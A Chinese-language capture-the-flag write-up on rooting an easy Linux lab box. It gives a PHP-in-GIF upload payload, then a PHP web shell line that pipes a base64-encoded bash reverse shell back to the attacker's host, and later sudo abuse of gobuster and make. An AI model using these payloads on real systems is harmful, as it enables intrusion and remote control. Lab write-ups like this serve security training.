




## Box Info

| OS | Linux |
| --- | --- |
| Diffculty | Easy |

## Nmap

```
[root@kali] /home/kali/up  
❯ nmap 192.168.55.16 -sV -A -p-

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.62 ((Debian))
|_http-server-header: Apache/2.4.62 (Debian)
|_http-title: RodGar - Subir Imagen
```

进入之后是一个上传页面，经过测试没有漏洞

## Feroxbuster

```
[root@kali] /home/kali/up  
❯ feroxbuster -u 'http://192.168.55.16/' -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt
                                                                                                                                                
 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.11.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://192.168.55.16/
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
 👌  Status Codes          │ All Status Codes!
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.11.0
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 💲  Extensions            │ [php, txt]
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 4
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
403      GET        9l       28w      278c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
404      GET        9l       31w      275c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
200      GET      150l      388w     4489c http://192.168.55.16/
301      GET        9l       28w      316c http://192.168.55.16/uploads => http://192.168.55.16/uploads/
301      GET        9l       28w      319c http://192.168.55.16/javascript => http://192.168.55.16/javascript/
200      GET      150l      388w     4489c http://192.168.55.16/index.php
403      GET       31l       94w      964c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
200      GET        1l        1w     1301c http://192.168.55.16/uploads/robots.txt
301      GET        9l       28w      329c http://192.168.55.16/javascript/clipboard => http://192.168.55.16/javascript/clipboard/
200      GET      858l     3081w    26377c http://192.168.55.16/javascript/clipboard/clipboard
```

## Own www-data

注意到**/uploads**下还有一个**robots.txt**，经过解码得到源码

分析可以看出，文件名是经过**Rot13**位移后的

```
<?php
if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    $targetDir = "uploads/";
    $fileName = basename($_FILES["image"]["name"]);
    $fileType = pathinfo($fileName, PATHINFO_EXTENSION);
    $fileBaseName = pathinfo($fileName, PATHINFO_FILENAME);

    $allowedTypes = ['jpg', 'jpeg', 'gif'];
    if (in_array(strtolower($fileType), $allowedTypes)) {
        $encryptedFileName = strtr($fileBaseName, 
            'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz', 
            'NOPQRSTUVWXYZABCDEFGHIJKLMnopqrstuvwxyzabcdefghijklm');

        $newFileName = $encryptedFileName . "." . $fileType;
        $targetFilePath = $targetDir . $newFileName;

        if (move_uploaded_file($_FILES["image"]["tmp_name"], $targetFilePath)) {
            $message = "El archivo se ha subido correctamente.";
        } else {
            $message = "Hubo un error al subir el archivo.";
        }
    } else {
        $message = "Solo se permiten archivos JPG y GIF.";
    }
}
?>
```

由于是白名单，因此只能猜测配置错误导致某个后缀名被解析为**PHP**

```
POST / HTTP/1.1
Host: 192.168.55.16
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:137.0) Gecko/20100101 Firefox/137.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=----geckoformboundaryb6ec38d14456abf0196cf2873090c48a
Content-Length: 240
Origin: http://192.168.55.16
Connection: close
Referer: http://192.168.55.16/
Upgrade-Insecure-Requests: 1
Priority: u=0, i

------geckoformboundaryb6ec38d14456abf0196cf2873090c48a
Content-Disposition: form-data; name="image"; filename="tomcat.gif"
Content-Type: image/gif

GIF89a
<?php phpinfo();?>
------geckoformboundaryb6ec38d14456abf0196cf2873090c48a--
```


```
<?php system("printf KGJhc2ggPiYgL2Rldi90Y3AvMTkyLjE2OC41NS40LzQ0NDQgMD4mMSkgJg==|base64 -d|bash");?>
```



## Own rodgar

查看**sudo**

```
www-data@debian:/var/www/html/uploads$ sudo -l
Matching Defaults entries for www-data on debian:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User www-data may run the following commands on debian:
    (ALL) NOPASSWD: /usr/bin/gobuster
```

在**kali**上开启**http**服务

```
[root@kali] /  
❯ python -m http.server 80

www-data@debian:/tmp$ sudo /usr/bin/gobuster dir  -u http://192.168.55.4/ -w /root/rodgarpass
```



得到密码哈希，好像只有31位？

```
b45cffe084dd3d20d928bee85e7b0f2
```

因此需要尝试爆破一下，这里也不多说了，后面添加一个**1**，补全**32**位就好了



然后密码居然是哈希值，而不是明文，离谱

## Root

```
rodgar@debian:/home$ sudo -l
Matching Defaults entries for rodgar on debian:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User rodgar may run the following commands on debian:
    (ALL : ALL) NOPASSWD: /usr/bin/gcc, /usr/bin/make
```

- [make | GTFOBins](https://gtfobins.github.io/gtfobins/make/)



## Summary

没啥好说的。
